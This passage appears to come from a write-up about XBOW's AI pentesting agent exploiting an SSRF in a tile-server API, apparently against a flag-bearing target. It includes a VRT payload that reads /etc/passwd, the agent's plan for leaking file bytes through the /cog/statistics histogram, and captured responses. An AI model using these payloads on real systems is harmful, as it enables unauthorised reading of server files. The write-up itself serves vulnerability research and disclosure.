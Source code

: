 #### From Network to Local: File System Access

With SSRF-to-file-read proven, XBOW’s coordinator agent decided to test local file access. The transition was simple but powerful - replacing the network URL with a local file path:

```
<SourceFilename relativeToVRT="0">/etc/passwd</SourceFilename>
```

This opened the door to arbitrary local file reading using the same pixel-data extraction technique.

#### Creative Alternatives: Statistical Analysis

This vulnerability was discovered not once, but twice by XBOW! In a parallel run, XBOW took a similar but particularly creative approach, XBOW discovered that the `/cog/statistics` endpoint could be used to analyze the histogram of byte values in files:

```
Let's try this. `SourceFilename` will be `/vsicurl/http://[REDACTED]/METADATA.DIM`.
The `/cog/statistics` endpoint should then be able to calculate statistics on the ASCII values of the flag.
The `histogram` in the statistics output will show counts of each byte value (ASCII char).
This will leak the flag's characters and their frequencies. If the flag is short and unique enough, I can reconstruct it.
Or, if `/cog/preview.png` (or other image-returning endpoints) can render this VRT, it would render the flag as an image.
```

![](https://xbow.com/sparkle-white.webp)

The `/statistics` endpoint returned a 200 OK response with the following JSON:

```
--- Testing /cog/statistics with raw VRT: http://18.119.135.186/pentester0/raw_read.vrt ---
Status: 200
Response:
{"b1":{"min":0.0,"max":121.0,"mean":53.296875,"count":64.0,"sum":3411.0,"std":46.622379178184104,"
dian":60.0,"majority":0.0,"minority":97.0,"unique":14.0,"histogram":[[25.0,3.0,6.0,6.0,2.0,2.0,4.0\
.0,4.0,2.0,2.0,2.0,2.0,2.0],[0.0,47.0,60.0,62.0,97.0,98.0,100.0,101.0,104.0,108.0,109.0,111.0,116.\
121.0]],"valid_percent":100.0,"masked_pixels":0.0,"valid_pixels":64.0,"percentile_98":119.70000000
0002,"percentile_2":0.0}}
```

```
SUCCESS with /cog/statistics! The raw bytes were read.
The 'histogram' array in the JSON response for 'b1' will show counts of each byte value (0-255).
These byte values are the ASCII codes of the characters in the target file.
If the flag is short (e.g., < 64 chars), we can reconstruct it from the histogram.

Histogram counts: [25.0, 3.0, 6.0, 6.0, 2.0, 2.0, 4.0, 2.0, 4.0, 2.0, 2.0, 2.0, 2.0, 2.0]
Histogram bin values: [0.0, 47.0, 60.0, 62.0, 97.0, 98.0, 100.0, 101.0, 104.0, 108.0, 109.0, 111.0\
116.0, 121.0]

Characters present in the first 64 bytes (from histogram, order lost): /<>abdehlmoty
```
